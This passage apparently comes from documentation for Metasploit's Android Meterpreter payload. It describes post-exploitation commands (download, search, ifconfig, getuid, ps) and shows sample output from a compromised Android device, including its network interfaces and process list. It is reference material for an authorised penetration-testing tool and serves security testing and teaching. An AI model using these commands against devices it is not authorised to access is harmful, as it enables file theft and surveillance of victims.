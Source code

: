 The `download` command allows you to download a file from the remote target. The `-r`
option allows you to do so recursively.

**search**

The `search` command allows you to find files on the remote target. For example:

```
meterpreter > search -d . -f *.txt
```

**ifconfig**

The `ifconfig` command displays the network interfaces on the remote machine.

```
meterpreter > ifconfig

...

Interface 10
============
Name         : wlan0 - wlan0
Hardware MAC : 60:f1:89:07:c2:7e
IPv4 Address : 192.168.1.207
IPv4 Netmask : 255.255.255.0
IPv6 Address : 2602:30a:2c51:e660:62f1:89ff:fe07:c27e
IPv6 Netmask : ::
IPv6 Address : fe80::62f1:89ff:fe07:c27e
IPv6 Netmask : ::
IPv6 Address : 2602:30a:2c51:e660:81ae:6bbd:e0e1:5954
IPv6 Netmask : ::

...
```

**getuid**

The `getuid` command shows the current user that the payload is running as:

```
meterpreter > getuid
Server username: u0_a231
```

**ps**

The `ps` command shows a list of processes the Android device is running. For example:

```
meterpreter > ps 

Process List
============

 PID    Name                                                         Arch  User
 ---    ----                                                         ----  ----
 1      /init                                                              root
 2      kthreadd                                                           root
 3      ksoftirqd/0                                                        root
 7      migration/0                                                        root
 8      rcu_preempt                                                        root
 9      rcu_bh                                                             root
 10     rcu_sched                                                          root
 11     watchdog/0                                                         root
 12     watchdog/1                                                         root
 13     migration/1                                                        root
 14     ksoftirqd/1                                                        root
 17     watchdog/2                                                         root
 18     migration/2                                                        root
```